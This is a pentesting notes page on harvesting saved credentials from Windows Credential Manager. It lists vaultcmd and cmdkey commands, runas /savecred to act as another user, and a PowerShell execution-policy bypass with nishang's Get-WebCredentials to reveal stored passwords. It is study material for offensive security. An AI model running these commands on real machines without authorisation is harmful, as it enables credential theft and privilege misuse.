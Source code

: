 # Credentials Manager

### Resources

1. **MITRE ATT$CK**

{% embed url="https://attack.mitre.org/techniques/T1555/004/" %}

2. **Additional resources (The Hacker Recipes)**

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/windows-credential-manager" %}

3. **Get-WebCredentials.ps1 (nishang)**

{% embed url="https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1" %}

4. **cmdkey**

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey" %}



### (1) vaultcmd

**1.1** `/list`

By default, Windows has two vaults: **Web** and **Windows machine credentials**. The following command displays the two vaults:

```powershell
C:\> vaultcmd /list
```

**1.2** `/listproperties`

The following commands will list the properties of the web and windows machine credentials respectively:&#x20;

```powershell
C:\> vaultcmd /listproperties:"web credentials"
C:\> vaultcmd /listproperties:"windows credentials"
```

**1.3** `/listcreds`

List more information about the stored credentials (for web and windows machine respectively):

```powershell
C:\> vaultcmd /listcreds:"web credentials"
C:\> vaultcmd /listcreds:"windows credentials"
```

### (2) cmdkey

```powershell
C:\> cmdkey /list
```

### Retrieving/exploiting stored credentials

#### (1) runas.exe&#x20;

We can use the `runas.exe` command to run commands (eg. `cmd.exe`) as a particular user with stored credentials.

```powershell
C:\> runas.exe /savecred /user:<username> <command_to_execute>

# eg. to spawn a command prompt for the username "USER" 
C:\> runas.exe /savecred /user:USER cmd.exe
```

* `/savecred`: Indicates if the credentials have been previously saved by this user
  * This option is required to tell `runas.exe` to pull the stored credentials

#### (2) GetWebCredentials.ps1

The `vaultcmd` and `cmdkey` commands does not provide methods to show the password. Thus, we have to realy on external PowerShell scripts such as [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1):

> Ensure to run powershell with the bypass policy

```powershell
C:\> powershell -ep bypass
C:\> Import-Module Get-WebCredentials.ps1
C:\> Get-WebCredentials

UserName  Resource             Password     Properties
--------  --------             --------     ----------
...
```

### Overview of differences between `vaultcmd` and `cmdkey`

1. `vaultcmd /list`&#x20;

a. Displays both the **Web Credentials** and **Windows Credentials**

&#x20;2\. `cmdkey /list`&#x20;

a. Displays the credentials stored under **Windows Credentials** only

b. Displays the entries added via `cmdkey /add` or `runas.exe /savecred` commands

c. The output from the `vaultcmd /list` may overlap with the results from `vaultcmd /listcreds`

